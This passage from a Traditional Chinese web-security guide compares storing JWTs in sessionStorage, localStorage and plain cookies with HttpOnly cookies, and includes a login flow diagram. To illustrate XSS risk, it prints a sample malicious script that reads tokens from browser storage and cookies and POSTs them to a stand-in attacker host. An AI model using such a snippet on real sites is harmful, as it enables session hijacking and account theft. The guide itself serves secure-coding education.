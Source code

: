 #### **D. Session Storage**
```javascript
// 前端操作 - 會話限制但仍不安全
sessionStorage.setItem('token', 'jwt_token_here')
const token = sessionStorage.getItem('token')

// ❌ 同樣容易受 XSS 攻擊
const stolenToken = sessionStorage.getItem('token')
```

### **2. 為什麼選擇 HttpOnly Cookie？**

#### **安全性比較**
```javascript
// ❌ 不安全的方式 (Local/Session Storage + 一般Cookie)
// XSS 攻擊可以輕易竊取 Token
<script>
  // 惡意腳本範例
  const tokenLS = localStorage.getItem('token')        // Local Storage
  const tokenSS = sessionStorage.getItem('token')     // Session Storage  
  const tokenCookie = document.cookie.match(/token=([^;]+)/)[1] // 一般Cookie
  
  // 發送到攻擊者服務器
  fetch('https://evil.com/steal', { 
    method: 'POST', 
    body: JSON.stringify({ tokenLS, tokenSS, tokenCookie })
  })
</script>

// ✅ 安全的方式 (HttpOnly Cookie)
// JavaScript 完全無法讀取，即使有 XSS 也無法竊取
console.log(document.cookie) // 看不到 HttpOnly Cookie
document.cookie = "auth_token=hacked; httpOnly=true" // 無法設置
```

#### **實際運作差異**

**HttpOnly Cookie 流程：**
```mermaid
graph TD
    A[用戶登入] --> B[服務器驗證]
    B --> C[生成 JWT]
    C --> D[設置 HttpOnly Cookie]
    D --> E[瀏覽器存儲 Cookie]
    
    F[後續請求] --> G[瀏覽器自動攜帶 Cookie]
    G --> H[服務器讀取 Cookie]
    H --> I[驗證 JWT]
    I --> J[授權存取]
    
    style D fill:#90EE90
    style G fill:#90EE90
    style H fill:#90EE90
```
